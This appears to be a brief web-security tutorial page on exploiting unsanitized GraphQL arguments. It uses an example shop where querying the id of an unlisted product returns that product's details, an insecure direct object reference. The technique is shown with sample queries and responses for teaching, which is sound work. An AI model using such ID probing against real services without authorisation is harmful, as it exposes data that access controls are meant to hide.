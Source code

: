 # Exploiting Unsanitized Arguments

{% hint style="info" %}
* For a general explanation of GraphQL arguments, see [Arguments](https://portswigger.net/web-security/graphql/what-is-graphql#arguments).
* For further information on IDORs, see [Insecure direct object references (IDOR)](https://portswigger.net/web-security/access-control/idor).
{% endhint %}



For example, the query below requests a product list for an online shop:

```
 [[Example]] product query

    query {
        products {
            id
            name
            listed
        }
    }
```



The product list returned contains only listed products.

```
[[Example]] product response

    {
        "data": {
            "products": [
                {
                    "id": 1,
                    "name": "Product 1",
                    "listed": true
                },
                {
                    "id": 2,
                    "name": "Product 2",
                    "listed": true
                },
                {
                    "id": 4,
                    "name": "Product 4",
                    "listed": true
                }
            ]
        }
    }

```



By querying the ID of the missing product, we can get its details, even though it is not listed on the shop and was not returned by the original product query.

```
[[Query]] to get missing product

    query {
        product(id: 3) {
            id
            name
            listed
        }
    }
```

```
 [[Missing]] product response

    {
        "data": {
            "product": {
            "id": 3,
            "name": "Product 3",
            "listed": no
            }
        }
    }

```

